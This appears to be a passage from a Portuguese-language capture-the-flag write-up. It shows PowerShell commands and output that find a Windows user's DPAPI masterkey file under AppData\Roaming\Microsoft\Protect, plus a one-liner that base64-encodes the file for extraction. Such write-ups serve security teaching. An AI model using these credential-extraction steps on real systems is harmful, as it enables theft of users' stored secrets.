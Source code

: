 ```powershell
PS C:\Users\security> cd AppData\Roaming\Microsoft\Protect\
PS C:\Users\security\AppData\Roaming\Microsoft\Protect> ls -force


    Directory: C:\Users\security\AppData\Roaming\Microsoft\Protect


Mode                LastWriteTime     Length Name                                                                                                                                           
----                -------------     ------ ----                                                                                                                                           
d---s         8/22/2018  10:18 PM            S-1-5-21-953262931-566350628-63446256-1001                                                                                                     
-a-hs         8/22/2018  10:18 PM         24 CREDHIST                                                                                                                                       


PS C:\Users\security\AppData\Roaming\Microsoft\Protect>
```

> SID: S-1-5-21-953262931-566350628-63446256-1001

    Para pegar as masterkeys, entramos no diretório do SID.

```powershell
PS C:\Users\security\AppData\Roaming\Microsoft\Protect> cd S-1-5-21-953262931-566350628-63446256-1001
PS C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001> ls -force


    Directory: C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001


Mode                LastWriteTime     Length Name                                                                                                                                           
----                -------------     ------ ----                                                                                                                                           
-a-hs         8/22/2018  10:18 PM        468 0792c32e-48a5-4fe3-8b43-d93d64590580                                                                                                           
-a-hs         8/22/2018  10:18 PM         24 Preferred                                                                                                                                      


PS C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>
```

> Masterkey File: 0792c32e-48a5-4fe3-8b43-d93d64590580

    Ok, identificado o arquivo da masterkey temos que pegar seu conteúdo, para isso podemos converter sua saída binária em base64 usando os seguintes métodos:

> Powershell Convert
> 
> [convert]::ToBase64String((Get-Content -path "FILE" -Encoding byte))
